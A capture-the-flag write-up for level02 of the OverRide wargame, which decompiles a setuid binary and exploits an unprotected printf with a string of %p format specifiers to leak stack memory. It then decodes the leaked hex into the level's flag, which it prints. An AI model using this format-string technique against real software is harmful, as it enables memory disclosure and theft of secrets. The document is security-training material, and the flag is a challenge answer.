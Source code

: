 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

/!\ File in 64 bits : addresses will have 8 bytes instead of the usual 4
```
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 26.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked a fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  
**However we spot an unprotected printf at line 69 in the sources**

- The content of the flag is read and stored in a variable (`file_content`)


### step 3: Exploit printf to read the stack

We can exploit the unprotected printf to read large chunks of the stack and print the memory containing the flag with `%p` in the username field  

%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: *****************************************
0x7fffffffe4f0(nil)0x700x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x25702570257025700x70(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x29002570250x602010(nil)0x7ffff7a3d7ed(nil)0x7fffffffe6e80x1000000000x400814(nil)0xec9d7c0ee9efabd3 does not have access!
```

- The following string surround by `\0` can be extracted : `0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d`

=> We spot 5 chunks of 8 chars (16 hex) that could correspond to our 40 char long flag   

- In order to get our flag we have to process this string :
  1) Split the 5 chunks with the separator `0x`
  2) Convert each chunk to little endian
  3) Convert each hex number to a char
  4) Join all converted chunks

- flag : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`





